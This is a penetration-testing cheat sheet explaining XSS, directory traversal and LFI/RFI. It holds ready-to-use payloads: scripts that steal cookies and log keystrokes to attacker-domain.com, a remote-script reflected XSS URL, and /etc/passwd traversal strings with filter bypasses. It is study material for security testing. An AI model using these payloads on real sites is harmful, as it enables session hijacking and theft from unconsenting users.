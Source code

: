 # Penetration Testing Tips


## XSS Attacks

### Payload

#### Proof of Concept

```html
<script>alert('XSS')</script>
```

#### Session stealing

Steal the session ID in `document.cookie` and send it to an API owned by the attacker.  
The `btoa(str)` JS function (Binary to ASCII) encodes the cookie in Base64.

```html
<script>fetch('https://attacker-domain.com/steal?cookie=' + btoa(document.cookie))</script>
```

#### Key logger

Similar to session stealing, but instead of a cookie send each keystroke to an API owned by the attacker.

```html
<script>document.onkeypress = function(e) { 
    fetch('https://attacker-domain.com/log?key=' + btoa(e.key));
}</script>
```

### Reflected XSS

Reflected XSS is a XSS vulnerability where a webpage displays in its HTML a string from the HTTP request
(for ex an URL parameter) without validation.  
This can happen for an error page for example, taking the error message as a parameter.  

Reflected XSS can be exploited by passing a custom script in the URL :
```commandline
http:// vulnerable-website.com?param=<script src="https://attacker-domain.com/payload.js"></script>
```

### Stored XSS

Stored XSS is a XSS vulnerability where the payload is stored by the website in a database (for example in a blog comment).  
It gets displayed for every user checking the website, so reaches more users than reflected XSS.  
However it is easier to detect than reflected XSS, since the payload is stored in the database.
 

### Blind XSS

Blind XSS is a XSS vulnerability where the attacker can inject a payload that is executed, but cannot test it himself.  
This happens for example if we create a support request which body is not sanitized, and this body is used as-is
to create a ticket in a ticketing system (JIRA, FreshDesk...).  
In that case, the payload should report to an HTTP API when executed, to transmit the stolen info.

**XSS Hunter Express** can be used to perform Blind XSS attacks, it will capture cookies, URK, page content...


## Directory Traversal

A directory traversal exposes files from the web server by exploiting a query parameters containing a file name.  
We can use the **dot-dot-attack** to expose files outside the intended resource folder.

#### Bypass a suffix appended to the file name by the web-server

A **NULL-byte injection** can by-pass a mechanism appending a suffix to the file name (like forcing an extension).  
The NULL byte is represented by `%00` or `0x00`.  
For example if a parameter `file=EN` returns the file `EN.php`, we can use `file=../../../../etc/passwd%00` to ignore the appended `.php`  
This NULL-byte injection is fixed in PHP 5.3.4.

#### Bypass the replacement of ../ by an empty string

If the sanitization replaces `../` by an empty string, it usually does a single pass.  
We can trick it by passing `....//....//etc/passwd`, after sanitization it will become `../../etc/passwd`.

#### LFI / RFI (Local/Remote File Injection)

When the web server can only return local files, it is a LFI.  
If the web server queries the URL of the input file, it is a RFI.  
In case of a RFI, we can force the web server to execute a malicious PHP file from a server owned by the attacker.  
This results in a RCE vulnerability.


## Run a local webserver

Run a local web server on port 8000 delivering files in its execution folder : 
```commandline
python -m http.server
```


## Special IP addresses 

**169.254.169.254** : link-local address used by cloud providers (AWS, GCP...) to provide metadata on the running instance.
